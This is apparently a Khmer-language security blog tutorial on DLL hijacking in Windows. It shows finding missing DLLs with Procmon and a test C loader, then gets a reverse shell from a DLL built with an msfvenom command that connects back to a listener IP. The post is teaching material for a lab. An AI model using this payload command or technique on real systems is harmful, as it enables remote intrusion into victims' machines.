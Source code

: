 ```yaml
---
title: "DLL Hijacking Attack 0x01"
date: 2023-07-07T21:01:06+07:00
description: យល់ដឹងអំពីការវាយប្រហារបែប DLL Hijacking
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- dll
- hijacking
categories:
- DLL Hijacking
series:
- WinExE
image: images/feature3/dll.png
---
```


DLL hijacking ឬដែលគេត្រូវបានស្គាល់ថាជា DLL preloading ឬ DLL side-loading គឺជាវិធីសាស្ត្រវាយប្រហារដោយធ្វើការបោកបញ្ឆោតរាល់កម្មវិធី (Software) ដែលមាននៅក្នុងប្រព័ន្ធប្រតិបត្តិការវីនដូទាំងអស់ក្នុងការព្យាយាមបើកដំណើរការ DLL ដែលមានបង្កប់នូវមេរោគជាជាងបើកដំណើរការ DLL មែនទែននៃកម្មវិធី ។

#### Finding Missing DLLs

ដើម្បីស្វែងរករាល់ DLL ដែលបានបាត់នៅក្នុងប្រព័ន្ធប្រតិបត្តិការវីនដូយើងអាចប្រើប្រាស់កម្មវិធី [Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) ហើយធ្វើការ Filter លក្ខណ្ឌទាំងពីរដូចរូបខាងក្រោម៖

![Filter Include 1](/en/posts/img/2023/07/dll-hijacking-0x01/filter-1.png)
![Filter Include 2](/en/posts/img/2023/07/dll-hijacking-0x01/filter-2.png)

ក្រោយពីយើងធ្វើការដាក់បញ្ជូល Filter ទាំងពីររួចរាល់ សូមចុច Apply នោះកម្មវិធីនឹងធ្វើការច្រោះចេញនូវរាល់ DLLs ទាំងឡាយណាដែលត្រូវការបើកដំណើរការ ប៉ុន្តែវាមិនត្រូវបានរកឃើញនៅក្នុងប្រព័ន្ធ ។

![Filter Results](/en/posts/img/2023/07/dll-hijacking-0x01/dll-filter-results.png)

ប្រសិនបើយើងចង់ធ្វើការ Filter ទៅលើកម្មវិធីណាមួយជាក់លាក់នោះយើងត្រូវបន្ថែមការកំណត់ Filter ដូចខាងក្រោម៖

![Filter By Process Name](/en/posts/img/2023/07/dll-hijacking-0x01/filter-by-process-name.png)
![Filter By Process Name Apply](/en/posts/img/2023/07/dll-hijacking-0x01/filter-by-process-name-apply.png)

#### Exploation Path
ដំបូងយើងត្រូវការ DLL Payload ដោយយើងអាចបង្កើតវាបានតាមរយៈ Framework ជាច្រើនដូចជា Metasploit / Cobalt Strike​ / DCRat ។ល។ យើងនឹងបង្កើតវាដោយប្រើប្រាស់ MSFvenom ដែលជា Standalone Payload Generator ដូចខាងក្រោម៖

{{< highlight bash "linenos=table" >}}
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.60.136 lport=4433 -f dll > payload.dll
{{< / highlight >}}

ចឹងនៅក្នុងអត្ថបទនេះយើងនឹងសាកល្បងបង្កើតឯកសារ EXE មួយដែលព្យាយាមបើកឯកសារ DLL ឈ្មោះថា test.dll ដោយប្រើប្រាស់ភាសារ C ។

{{< highlight c "linenos=table" >}}
#include <windows.h>
#include <stdio.h>
// Compile with: i686-w64-mingw32-gcc-win32 loader.c -o loader.exe

int main(void) {
	HINSTANCE hDll;
	hDll = LoadLibrary(TEXT("test.dll"));
	if(hDll != NULL) {
			printf("DLL was found!\n");
	} else {
			printf("DLL not found!\n");
	}
	return 0;
}
{{< / highlight >}}

ក្រោយពីដំណើរការឯកសារ loader.exe ខាងលើយើងនឹងទទួលបានសារប្រាប់ថាឯកសារ DLL ឈ្មោះថា test.dll បានបាត់បង់ រកមិនឃើញ ។

![Filter By Process Name Apply](/en/posts/img/2023/07/dll-hijacking-0x01/loader-missing-test-dll.png)

ដូចនេះបើយើងយក Payload របស់យើងកែឈ្មោះឲ្យដូច និងចម្លងដាក់ចូលទៅក្នុងថតឯកសារនៃ test.dll ដែល loader.exe ស្វែងរកមិនឃើញ នោះយើងនឹងទទួលបាន Reverse Shell ជាក់ជាមិនខាន ៕

![Filter By Process Name Apply](/en/posts/img/2023/07/dll-hijacking-0x01/got-reverse-shell.png)